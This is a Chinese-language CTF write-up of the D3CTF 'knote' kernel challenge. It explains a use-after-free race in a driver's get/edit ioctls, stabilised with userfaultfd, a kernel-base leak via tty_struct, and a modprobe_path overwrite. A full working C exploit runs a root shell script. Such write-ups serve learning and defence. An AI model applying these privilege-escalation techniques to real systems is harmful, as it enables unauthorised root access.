

D3CTF knote复现
最近想拿一道kernel pwn题来学习，于是便想起去年D^3CTF中没有做出来的knote（太菜了。
漏洞点

漏洞点是在get和edit的函数中没有上锁，导致可以在kfree之后读写，是一个很典型的条件竞争漏洞。官方wp说可以用userfaultfd来控制race，不过之前没有接触过userfaultfd是啥，这次学习了一下。
userfaultfd介绍
首先先来看看man手册对于userfaultfd的介绍
http://man7.org/linux/man-pages/man2/userfaultfd.2.html
我简单的说一下大概意思，userfaultfd可以创建一个用来处理用户空间的page faults的文件描述符，要注意的是这个系统调用没有Glibc层次上的包装，当注册userfaultfd的线程遇到了特定区域的页错误时(特定区域在创建userfaultfd的时候指明)，会被put to sleep，userfaultfd会生成一个event，在page fault event被处理后原进程又会被唤醒。一般的应用场景是在多线程的环境下，A线程注册了userfaultfd的文件描述符，B线程对这个文件描述符使用poll进行监视， 然后A触发page fault进入阻塞，B接收到了event被唤醒，于是可以对出现page fault的页进行重新映射，从而对新的映射进行读写，所以A触发的读写page fault在B进程中被重新处理了，接着A线程继续恢复运行。之前Balsn CTF的一道kernel pwn也是使用了userfaultfd，参考了一下大佬的文章https://www.jianshu.com/p/a70a358ec02c，看了看exp具体是怎么写的。
漏洞利用思路
首先看start.sh开启了smep和smap还有kaslr，所以我们需要借用UAF来泄露kernel的基地址，我们可以先add一个chunk，然后对其使用get函数触发page fault，在处理event的进程中再delete这个chunk，并且立即open ptmx来获得一个tty_struct。注意chunk的大小应该在0x200~0x400之间，因为tty_struct的大小是0x2e0，而alloc_tty_struct函数使用的是kzmalloc，实际上就是kmalloc，这样才能达到UAF的效果，最终将新申请出来的tty_struct里面的内容给读取出来，从而泄露kernel base。接下来就是要控制程序的执行流程了，一般而言我们可以使用UAF来覆写一个tty_struct结构，从而伪造tty_operations结构，然后使用ioctl或者write这些系统调用来获得一次控制程序执行流程的机会，官方的wp是使用ioctl来使得程序跳转至一个循环，然后再次通过一次race修改tty_struct从而改变gadget的逻辑来劫持rsp至physmap区域。我的一开始的想法是直接劫持程序流程至run_cmd，但是由于rdi指向的是tty_struct的首地址，而tty_struct的前4个字节是magic，修改了会过不了检查，于是便想找一个gadget来绕过。最终找到了一个这样的gadget。
这样我们可以将tty_struct+0x20设置为run_cmd的地址，然后将tty_struct+0x30设置为指向脚本的绝对路径字符串的指针，从而可以顺利得执行run_cmd，从而以root权限执行我们指定的脚本来得到flag，可是不知道为啥我在调试的过程中，call_usermodehelper这个函数总是执行失败，试了很久，仍然不知道为啥（太菜了。于是我转而去寻找另外一种思路，利用kmalloc类似于fastbin attack的特征修改fd来实现任意地址写，去修改modprobe_path，然后在执行一个错误的elf文件来触发call_modprobe函数执行，参考了http://blog2.eonew.cn/archives/20，感谢大佬Orz。
call_usermodehelper_exec()函数，效果和run_cmd类似，其实run_cmd也是执行call_usermodehelper_exec()这个函数，但和call_modprobe区别是，wait参数值不一样。
call_modprobe的wait参数：UMH_KILLABLE | UMH_WAIT_PROC
run_cmd的wait参数是：UMH_WAIT_EXEC
从代码的注释中可以看到这四个宏的接收，关于UMH_WAIT_EXEC宏作用是，等待exec，而不等待process而UMH_WAIT_PROC是等待process，由此我们可以得出结论，在run_cmd中因为我们使用了gadget来劫持程序执行流程，有可能脚本还没有开始执行，内核线程就直接从run_cmd返回了，然后就会触发非法的一些操作，从而导致整个kernel oops。这应该就是run_cmd不可行的原因。
exp编写
这里我使用修改modprobe_path的方法来写exp，为了更加稳定，我把exp进程绑定在一个cpu核上，大大增加了成功率。exp如下:
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <stropts.h>
#include <sys/wait.h>
#include <sys/stat.h>
#include <sys/ioctl.h>
#include <stdint.h>
#include <string.h>
#include <pthread.h>
#include <linux/userfaultfd.h>
#include <sys/mman.h>
#include <sys/syscall.h>
#include <sys/types.h>
#include <errno.h>
#include <poll.h>
#include <linux/fs.h>
#include <semaphore.h>
#include <sched.h>
#define errExit(msg) do { perror(msg); exit(EXIT_FAILURE);\
}while(0)
sem_t done;
typedef struct mychunk{
uint64_t size;
uint64_t buf;
}mychunk;
int fd, tfd, tfd2;
void hexdump(char *buf)
{
for(int i=0; i<0x2e0; i+=0x10)
printf("+%x:0x%lx +%x:0x%lx\n", i, *(uint64_t*)(buf+i), i+8, *(uint64_t *)(buf+i+8));
}
void add(uint64_t sz)
{
mychunk temp;
temp.size = sz;
temp.buf = 0;
ioctl(fd, 0x1337, &temp);
}
void get(uint64_t index, uint64_t buf)
{
mychunk temp;
temp.size = index;
temp.buf = buf;
ioctl(fd, 0x2333, &temp);
}
void edit(uint64_t index, uint64_t buf)
{
mychunk temp;
temp.size = index;
temp.buf = buf;
ioctl(fd, 0x8888, &temp);
}
void dele(uint64_t index)
{
mychunk temp;
temp.size = index;
temp.buf = 0;
ioctl(fd, 0x6666, &temp);
}
char buffer[0x1000];
#define FAULT_PAGE 0xaaaa000
#define FAULT_PAGE2 0xdead000
static void *
handler(void *args)
{
struct uffd_msg msg;
unsigned long uffd = (unsigned long)args;
puts("[+] Handler created");
struct pollfd pollfd;
int nready;
pollfd.fd = uffd;
pollfd.events = POLLIN;
sem_post(&done);
puts("sem open");
nready = poll(&pollfd, 1, -1);
if(nready != 1) //waiting all the time until copy_from_user read AULT_PAGE
errExit("[-] Wrong pool return value");
puts("[+] Trigger! I'm going to hang'");
dele(0);
if(open("/dev/ptmx", O_RDWR) == -1)
errExit("open ptmx failed!");
if(read(uffd, &msg, sizeof(msg)) != sizeof(msg))
errExit("[-] Error in reading uffd_msg");
if(msg.event != UFFD_EVENT_PAGEFAULT){
fprintf(stderr, "Unexpected event on userfaultfd\n");
exit(EXIT_FAILURE);
}
struct uffdio_copy uc;
memset(buffer, 0, sizeof(buffer));
uc.src = (uint64_t)buffer;
uc.dst = (uint64_t)FAULT_PAGE;
uc.len = 0x1000;
uc.mode = 0;
if(ioctl(uffd, UFFDIO_COPY, &uc) == -1) //recover copy_from_user
errExit("ioctl-UFFDIO_COPY");
return NULL;
}
uint64_t modprobe_path;
static void *
handler2(void *args)
{
struct uffd_msg msg;
unsigned long uffd = (unsigned long)args;
puts("[+] Handler created");
struct pollfd pollfd;
int nready;
pollfd.fd = uffd;
pollfd.events = POLLIN;
sem_post(&done);
puts("sem open");
nready = poll(&pollfd, 1, -1);
if(nready != 1) //waiting all the time until copy_from_user read AULT_PAGE
errExit("[-] Wrong pool return value");
puts("[+] Trigger! I'm going to hang'");
dele(0);
*(uint64_t *)(buffer) = modprobe_path;
if(read(uffd, &msg, sizeof(msg)) != sizeof(msg))
errExit("[-] Error in reading uffd_msg");
struct uffdio_copy uc;
uc.src = (uint64_t)buffer;
uc.dst = (uint64_t)FAULT_PAGE2;
uc.len = 0x1000;
uc.mode = 0;
if(ioctl(uffd, UFFDIO_COPY, &uc) == -1)//recover copy_from_user
errExit("ioctl-UFFDIO_COPY");
return NULL;
}
void register_userfault()
{
struct uffdio_api ua;
struct uffdio_register ur;
pthread_t thr;
uint64_t uffd = syscall(__NR_userfaultfd, O_CLOEXEC | O_NONBLOCK);
if(uffd == -1)
errExit("get userfaultfd fail!");
ua.api = UFFD_API;
ua.features = 0;
if(ioctl(uffd, UFFDIO_API, &ua) == -1)
errExit("[-] ioctl-UFFDIO_API");
if(mmap((void *)FAULT_PAGE, 0x1000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0) != (void *)FAULT_PAGE)
errExit("[-] mmap fault page");
ur.range.start = (uint64_t)FAULT_PAGE;
ur.range.len = 0x1000;
ur.mode = UFFDIO_REGISTER_MODE_MISSING;
if(ioctl(uffd, UFFDIO_REGISTER, &ur) == -1)
errExit("[-] ioctl-UFFDIO_REGISTER");
int ret = pthread_create(&thr, NULL, handler, (void *)uffd);
if(ret != 0)
errExit("[-] pthread_create");
}
void register_userfault2()
{
struct uffdio_api ua;
struct uffdio_register ur;
pthread_t thr;
uint64_t uffd = syscall(__NR_userfaultfd, O_CLOEXEC | O_NONBLOCK);
if(uffd == -1)
errExit("get userfaultfd fail!");
ua.api = UFFD_API;
ua.features = 0;
if(ioctl(uffd, UFFDIO_API, &ua) == -1)
errExit("[-] ioctl-UFFDIO_API2");
if(mmap((void *)FAULT_PAGE2, 0x1000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0) != (void *)FAULT_PAGE2)
errExit("[-] mmap2 fault page");
ur.range.start = (uint64_t)FAULT_PAGE2;
ur.range.len = 0x1000;
ur.mode = UFFDIO_REGISTER_MODE_MISSING;
if(ioctl(uffd, UFFDIO_REGISTER, &ur) == -1)
errExit("[-] ioctl-UFFDIO_REGISTER");
int ret = pthread_create(&thr, NULL, handler2, (void *)uffd);
if(ret != 0)
errExit("[-] pthread_create");
}
void init()
{
unsigned char cpu_mask = 0x01;
sched_setaffinity(0, 1, &cpu_mask);
sem_init(&done, 0, 1);
sem_wait(&done);
puts("sem lock");
fd = open("/dev/knote", 0);
if(fd < 0)
errExit("[-] open note fail!");
int file_fd = open("/tmp/shell.sh", O_WRONLY|O_CREAT|O_NOCTTY|O_NONBLOCK, 0755);
if(file_fd == -1)
errExit("[-] open shell.sh error");
write(file_fd, "#!/bin/sh\n"
"chmod 777 flag\n"
"sleep 20\n", 34);
close(file_fd);
file_fd = open("/tmp/wrong_elf", O_WRONLY|O_CREAT|O_NOCTTY|O_NONBLOCK, 0775);
if(file_fd == -1)
errExit("[-] open wrong_elf error");
write(file_fd, "\x00", 1);
close(file_fd);
puts("[+] init done!");
}
int main(int argc, char **args, char **envp)
{
init();
add(0x2e0);
register_userfault();
sem_wait(&done);
get(0, FAULT_PAGE);
hexdump((char*)FAULT_PAGE);
uint64_t heapaddr = *(uint64_t *)(FAULT_PAGE + 0x38);
uint64_t codeaddr = *(uint64_t *)(FAULT_PAGE + 0x2b0) - 0xdef0;
if(heapaddr == 0)
errExit("race failed!");
modprobe_path = codeaddr + 0xe955c0;
printf("%lx", modprobe_path);
printf("[+] heapaddr:0x%lx codeaddr:0x%lx\n", heapaddr, codeaddr);
add(0x2e0);
puts("sem lock");
register_userfault2();
sem_wait(&done);
edit(0, FAULT_PAGE2);
add(0x2e0);
add(0x2e0);
edit(1, (uint64_t)"/tmp/shell.sh");
int pid = fork();
if(pid == -1)
errExit("fork error!");
if(pid)
{
char flag_buf[0x20];
puts("wait ...");
sleep(1);
int file_fd = open("/flag", O_RDONLY);
if(file_fd == -1)
errExit("open flag error!");
read(file_fd, flag_buf, 0x1f);
puts(flag_buf);
}
else{
char *my_args[] = {"/tmp/wrong_elf", NULL};
execve(my_args[0], my_args, envp);
}
}总结
对于很多条件竞争的洞，本来的触发其实是很困难的，但是我们可以用一些技巧来使得竞争变得更加稳定，userfaultfd算是其中之一，之前学习过的CVE-2019-13272，exp的作者也是使用了类似的手法，通过把一个block_pipe重定向到stdout来阻塞进程，从而控制竞争的效果。